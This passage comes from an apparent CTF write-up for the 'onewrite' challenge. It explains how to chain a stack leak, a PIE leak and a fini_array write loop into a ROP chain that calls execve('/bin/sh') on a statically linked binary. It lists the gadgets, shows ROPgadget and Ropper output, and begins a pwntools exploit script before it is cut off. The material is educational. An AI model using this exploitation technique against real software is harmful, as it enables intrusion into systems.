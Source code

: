 Now that we have setup a loop which we can use to write as many QWORDS as we want, we can now focus on building our ROP Chain. Since this binary is statically linked, there is no libc so we can't do a return 2 libc attack, and since the binary doesn't have the function `system` we can do a return 2 system attack. That just leaves building out a ROP chain. We will store the ROP chain below `rsp`, and use an `add rsp, x` ROP gadget to pivot over to our ROP chain (since addresses on the stack build towards lower addresses). Also we will need to store the string "/bin/sh" somewhere in memory, since it isn't in the binary by default. We can just store it at an address of our chooisng, that we know where it is and doesn't mess with other things that we need. Also every time we go through the loop with `__libc_csu_fini`, due to how the memory works we need to shift our stack addresses (the return address of `__libc_csu_fini` and where we are writing the ROP chain) up by `8`. Also for the ROP chain itself, we will want a ROP Chain that does this:

```
pop rdi, "/bin/sh" adr ; ret
pop rsi, 0x0           ; ret
pop rdx, 0x0           ; ret
pop rax, 59			   ; ret
syscall
```

we can find those ROP gadgets using ROPgadget like this:
```
$	python ROPgadget.py --binary onewrite-390417ba15a4e5ad7ea0507a21e7dc1ef03eb1805750a0e786f2066a68445786 | grep pop | grep rdi | less
```

we can use Ropper to find a syscall:
```
$	python Ropper.py --file onewrite-390417ba15a4e5ad7ea0507a21e7dc1ef03eb1805750a0e786f2066a68445786 | grep syscall

.	.	.

0x000000000000917c: syscall; 
```

last thing we will need is the stack pivot gagdet. This specific gadget adds a value to rsp which will be nice to work with for our offsets:

```
0x00000000000106f3: add rsp, 0xd0; pop rbx; ret; 
```

### exploit

So our exploit will start off by leaking the stack address, using it to calculate the return address, and writing over the return address with the value of `do_leak`. Then it will get a PIE infoleak, and setup the Qwords write loop by wring two entries of `do_overwrite` to the `fini_array` (from back to front). Then it will write over the `__libc_csu_fini` return address with itself to trigger the loop again. Each time the loop runs, we will write 8 bytes of the ROP chain. After that, we will just use a ROP gadget to pivot the stack to the ROP chain and get a shell. Putting it all together here is our exploit:

```
# This exploit is based off of: https://github.com/EmpireCTF/empirectf/blob/master/writeups/2019-01-19-Insomni-Hack-Teaser/README.md#onewrite

from pwn import *


target = process('./onewrite-390417ba15a4e5ad7ea0507a21e7dc1ef03eb1805750a0e786f2066a68445786')
elf = ELF('onewrite-390417ba15a4e5ad7ea0507a21e7dc1ef03eb1805750a0e786f2066a68445786')
#gdb.attach(target)

# Establish helper functions
def leak(opt):
    target.recvuntil('>')
    target.sendline(str(opt))
```